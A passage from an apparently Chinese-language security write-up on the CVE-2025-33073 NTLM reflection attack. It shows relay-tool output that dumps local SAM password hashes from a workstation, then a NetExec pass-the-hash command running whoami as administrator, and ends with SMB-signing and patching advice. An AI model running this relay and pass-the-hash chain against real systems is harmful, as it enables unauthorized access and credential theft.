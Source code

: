 ```
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.115.185, attacking target smb://wkstn-3.shield.local
[*] Authenticating against smb://wkstn-3.shield.local as / SUCCEED
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.115.185 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x37e25629a1992a72be97236968ce3a53
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7ddade167a491d4f28eb25728469310e:::
Polunchis:1000:aad3b435b51404eeaad3b435b51404ee:b897c7001bf1600723c81ec97bbf5b15:::
[*] Done dumping SAM hashes for host: wkstn-3.shield.local
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeWkVRBDUib2GHJ7Z5l4EqmxDJzcdH0z21swkTrcyoQVhZe9w7yGjYsSw/640?wx_fmt=png&from=appmsg "")  
  
**6. 后渗透利用 (Post Exploitation)**  
  
现在我们可以使用 NetExec  
 或任何后渗透利用工具，配合本地管理员凭据进行操作：  
```
nxc smb 192.168.115.185 -u administrator -H 4b08728132d41e230b4ee268c5b42acb --local-auth -x whoami
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjem9rTafoePibOLjQdR8x59qZwVfBCuE8UgKN3BxWYLTLfqvjAOVhPwkg/640?wx_fmt=png&from=appmsg "")  
  
**完整攻击截图**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje3TUYBz1TMNVwTPRdvlwhyzicsEAySnu7tib99MLL3lryeX5t7gm6utjg/640?wx_fmt=png&from=appmsg "")  
  
## 结论  
  
尽管 Microsoft 持续加强安全防护，但当配置不当与遗留协议（如 NTLM）结合时，仍会提供危险的权限提升路径。  
  
这并非实验室中的理论技巧；我们已在真实环境中观察到 DNS 配置不当与 NTLM 行为被利用的案例。仅仅一个被忽视的设置（如 SMB 签名）就可能打开安全之门。  
## 检测与缓解措施  
  
**强制执行 SMB 签名**  
- SMB 签名可防止中继攻击，无论采用何种认证类型。应在整个域范围内强制执行。  
  
**应用补丁**  
- Microsoft 针对 CVE-2025-33073 的修复引入了更严格的 SMB 认证期间 DNS 名称验证机制。请确保部署最新的安全更新。  
  
## 参考来源  
- **阅读原始研究文章**  
: NTLM 反射已死，NTLM 反射长存！——CVE-2025-33073 深入分析  
  
  
  
